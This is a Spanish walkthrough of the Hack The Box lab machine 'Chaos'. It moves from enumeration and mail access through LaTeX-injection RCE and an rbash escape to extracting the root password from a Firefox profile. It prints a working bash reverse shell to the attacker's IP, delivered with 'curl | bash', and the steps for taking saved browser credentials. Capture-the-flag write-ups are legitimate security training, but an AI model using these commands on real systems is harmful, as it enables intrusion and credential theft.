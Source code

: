 # Chaos 

**Sistema Operativo**: Linux

**Dificultad**: Fácil

**Técnicas Vistas**: Password Guessing /
Abusing e-mail service (claws-mail) /
Crypto Challenge (Decrypt Secret Message - AES Encrypted) /
LaTeX Injection (RCE) /
Bypassing rbash (Restricted Bash) /
Extracting Credentials from Firefox Profile

Te prepara para las **Certificaciones**: eWPT eJPT<br><br>

![TERMINADA](https://github.com/user-attachments/assets/2dd45017-c02f-470e-a915-78214cbc7a83)<br><br>

# Recocimiento

Utilizando `nmap` encontramos puertos abiertos:

![1 - 2025-04-22_16-34](https://github.com/user-attachments/assets/f5cd757c-0629-4b14-8799-ab7da34ec9cc)<br><br>

- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-vvv` -> Aplica triple Verbose 
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"<br><br>

Encontramos este panel de autenticación en la ruta `https://10.10.10.120:10000`

![2 - 2025-04-22_18-53](https://github.com/user-attachments/assets/a69f56b4-0b5a-4cb8-b27b-7098ac07a1f5)<br><br>

Utilizando `gobuster` encontramos este directorio `wp`.

![3 - 2025-04-22_18-54](https://github.com/user-attachments/assets/6e92b507-f803-420a-a46f-3e5566bf1bad)<br><br>

Encontramos un subdirectorio `wordpress` donde vemos que el usuario `human` escribió un articulo el cual la contraseña es `human` también.
Nos da unas credenciales `ayush:jiujitsu`.<br><br>

![4 - 2025-04-22_18-55](https://github.com/user-attachments/assets/e4b8732d-09fd-4496-9b0e-5309bec87723)<br><br>

En `vim /etc/hosts` ponemos `10.10.10.120 wordpress.chaos.htb chaos.htb`.<br><br>

# Claws-mail (IMAP)

`apt install claws-mail`

Ponemos el usuario y el mail.

![5 - 2025-04-23_07-30](https://github.com/user-attachments/assets/523671ee-7597-4dc0-a2d6-d50e665265f5)<br><br>


Completamos:

![6 - 2025-04-23_07-31](https://github.com/user-attachments/assets/8034541f-36d9-4cd0-b7ef-a836b7007678)<br><br>


Apuntamos directamente al dominio:

![7 - 2025-04-23_07-32](https://github.com/user-attachments/assets/d6fdb3ff-a4dc-44a3-b978-f9b6667a9a30)<br><br>


Logramos ver un tal `sahay` donde nos comparte un `.txt` cifrado, y un `.py` que es el script que lo cifra.

![8 - 2025-04-23_07-34](https://github.com/user-attachments/assets/a69e15a2-fffe-4fea-aaee-5f43fe637418)<br><br>


Encontramos en github el script para desencriptar: `wget https://raw.githubusercontent.com/vj0shii/File-Encryption-Script/refs/heads/master/decrypt.py`.

- Nota:  Cambiar la varibale raw_input por input, seria: input("Enter filename: ") y input("Enter password: ").
- Nota: Hacer un `pip install pycryptodome`.<br><br>


Conseguimos un Link:

![9 - 2025-04-23_07-50](https://github.com/user-attachments/assets/8a7b17a7-3a34-49d4-b3ee-f078bcf09852)<br><br>

# Latex Injection

Encontramos un directorio `/pdf` donde se suben los documentos.

![10 - 2025-04-23_08-30](https://github.com/user-attachments/assets/b2defd0a-cde4-4ee5-b1c6-fbf2a6aa2134)<br><br>


Vemos que es vulnerable a `Latex Injection`

![11 - 2025-04-23_08-36](https://github.com/user-attachments/assets/8dfa752e-0546-4505-99e7-e8ee0ec0939a)<br><br>


Ganamos acceso:
`vim index.html` ->
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.43/443 0>&1
```

`python3 -m http.server 80` -> Comparto el `index.html`.
`nc -nlvp 443` -> Me pongo en escucha.

`curl 10.10.14.43 | bash` -> Ganamos acceso.

![12 - 2025-04-23_08-42](https://github.com/user-attachments/assets/9532f4d6-8819-4f05-8bc0-b494c76f1ef9)<br><br>

# Escalada de privilegios

`su ayush` ->  password: `jiujitsu`

Estamos en una `rbash` con doble `TAB` vemos que podemos ejecutar `tar`, si vamos a https://gtfobins.github.io/gtfobins/tar/ , vemos que podemos ejecutar un comando que nos da una  `sh` o una `bash`.

![13 - 2025-04-23_09-04](https://github.com/user-attachments/assets/7ff70244-98cd-41cb-af33-8982aca2e857)<br><br>


Luego extendemos el `PATH`. Asi: `export PATH=/root/.local/bin:/snap/bin:/usr/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/share/games:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games`<br><br>


##### Mozilla

Vemos  un `.mozilla` entramos y hacemos `python3 -m http.server 8008`.

![15 - 2025-04-23_09-54](https://github.com/user-attachments/assets/d27d1ba7-a363-4e76-9abd-6f8e212e47a8)<br><br>


`wget -r http://chaos.htb:8008` ->  Nos descargamos todo en nuestra maquina de atacante.

`wget https://raw.githubusercontent.com/unode/firefox_decrypt/refs/heads/main/firefox_decrypt.py` -> Nos descargamos el script.

Nos da la contraseña de root:

![14 - 2025-04-23_09-45](https://github.com/user-attachments/assets/8b64c5b1-d75e-400b-b21b-4995b1935845)<br><br>

Flag:

![FLAG](https://github.com/user-attachments/assets/950f76af-2766-43b7-a4ea-27ce2b9ab2a0)


